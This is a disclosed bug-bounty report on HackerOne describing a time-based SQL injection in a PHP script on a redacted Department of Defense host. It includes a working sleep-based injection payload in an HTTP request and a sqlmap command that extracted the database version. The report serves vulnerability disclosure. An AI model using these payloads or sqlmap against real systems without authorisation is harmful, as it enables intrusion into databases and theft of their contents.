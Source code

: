 # SQL Injection in the `move_papers.php` on the https://██████████

## Report Details
- **Report ID**: 491191
- **URL**: https://hackerone.com/reports/491191
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-02-05T02:56:28.657Z
- **Disclosed**: 2020-06-25T13:07:27.469Z

## Reporter
- **Username**: sp1d3rs
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
##Description
Hello. I was able to find another one Time-based SQLI on the `https://██████████/pubs/move_papers.php` using `pub_group_id` parameter.

This is my third SQLi (and probably the last one) found on this host. I wasn't able to detect more, but due to the big number of high impact issues found I also recommend to do internal audit of this host to determine other potential issues I could skip. I have feeling that more endpoints can be affected by the sql injection, I just didn't find them all. I'll continue my research and will report other vulnerabilities if I find any.

For the start, by bruteforcing files in the /pubs/ directory, I came across this script:
https://████████/pubs/move_papers.php
██████████
I was able to determine the parameter `pub_group_id` (similar sqli through this parameter was found and reported earlier in other script - `get_publications.php` in #489483 )

##POC
```
GET /pubs/move_papers.php?pub_group_id=a'%2b(select*from(select(sleep(5)))a)%2b' HTTP/1.1
Host: █████████
Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Accept-Language: en,ru;q=0.9,en-US;q=0.8,uk;q=0.7
Cookie: ███████


```
This request will trigger the 5 sec delay of the response. By making sleep value as 10, request will be delayed for 10 seconds.
As additional POC, that attacker is able to extract data, and it's not a false-positive, I retrieved DB banner (version) only using sqlmap command:
```
sqlmap.py -r test.txt --dbms=mysql --technique=T -p pub_group_id --banner --force-ssl --level=5
```
where test.txt is a text file contained request dump:
████
Result:
```
5.5.62-0ubuntu0.14.04.1
```
█████
No sensitive data such as databases, tables, or content was accessed.

## Impact

SQL injection usually have high or critical impact.

## Attachments
No attachments
